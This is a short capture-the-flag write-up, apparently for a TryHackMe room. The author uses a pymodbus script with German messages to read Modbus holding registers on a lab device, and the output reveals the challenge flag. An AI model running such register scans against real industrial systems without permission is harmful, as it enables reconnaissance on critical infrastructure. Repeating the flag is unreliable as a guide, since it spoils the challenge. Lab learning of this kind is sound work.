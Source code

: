 I didnt have a clue abt Modbus to begin with.

I watched a couple YT Vids and then went to the Obvious (ChatGPT) to get more help. It Suggested me to use "mbpoll". I checked if it was available in the attackbox but no.

So after that i went around the THM Site looking for Rooms abt Modbus since it should be logical that THM has a room abt it when they use it in a CTF. 

Then I Found the room "# Attacking ICS Plant #1" where they Used "pymodbus" i went and checked if it was available in the Attack box and it was. 

After that i Went and wrote a Python Script with help of Chat GPT to Connect to the Modbus Device and Pull Registers 0-200. 

This is the Script Since Im German the Dialoug is in German aswell: 

```
from pymodbus.client.sync import ModbusTcpClient

def is_probably_ascii(word):
    return all(32 <= b <= 126 for b in word)

def scan_holding_registers_for_ascii(ip, port=502, unit_id=1, start=0, end=200, block_size=20):
    client = ModbusTcpClient(ip, port=port)

    if not client.connect():
        print(f"Verbindung zu {ip}:{port} fehlgeschlagen.")
        return

    print(f"Suche nach ASCII-Daten in Holding-Register {start} bis {end}...\n")

    try:
        for address in range(start, end, block_size):
            result = client.read_holding_registers(address, block_size, unit=unit_id)
            if result.isError():
                print(f"[{address:03d}] Fehler beim Lesen.")
                continue

            registers = result.registers
            raw_bytes = []

            for reg in registers:
                high = (reg >> 8) & 0xFF
                low = reg & 0xFF
                raw_bytes.extend([high, low])

            # Versuche in ASCII umzuwandeln, ersetze unlesbare Zeichen mit '.'
            ascii_str = ''.join(chr(b) if 32 <= b <= 126 else '.' for b in raw_bytes)

            # Zeige nur, wenn mindestens 4 lesbare Zeichen enthalten sind
            if ascii_str.count('.') < len(ascii_str) - 4:
                print(f"[{address:03d}] -> '{ascii_str}'")

    finally:
        client.close()

# Starte den Scan
scan_holding_registers_for_ascii(ip="10.10.51.226", port=502, start=0, end=200, block_size=20)

```

After Running it it literally only was a look into the output that was 

```
[000] -> '..&.!.;H..X*y=..=._...<`1..4(..T.Q..L/."'
[020] -> '..td..#.........X..`.\... ..eQL...y.l.V\'
[040] -> '=".Y..u.._.e..6.l.....N...K.3....#..l.8.'
[060] -> '..Y.....vh]...............{...Q.>.....`.'
[080] -> '..0w...f.:.1x..%...g...d.E.|......?..tg.'
[100] -> './.h...1..M:3....o...*v..!..=...9....o..'
[120] -> 'a.oNBN.K...vWpB.......K...2p9.V..z.S.I.r'
[140] -> '..@.*.V#..QR...Z........nFa......?(h....'
[160] -> '.^.[..J7..../...}.THM{m4nu4l_p0ll1ng_r3g'
[180] -> '1st3rs}..y......U..5.y....iZ....A.+v....'

```
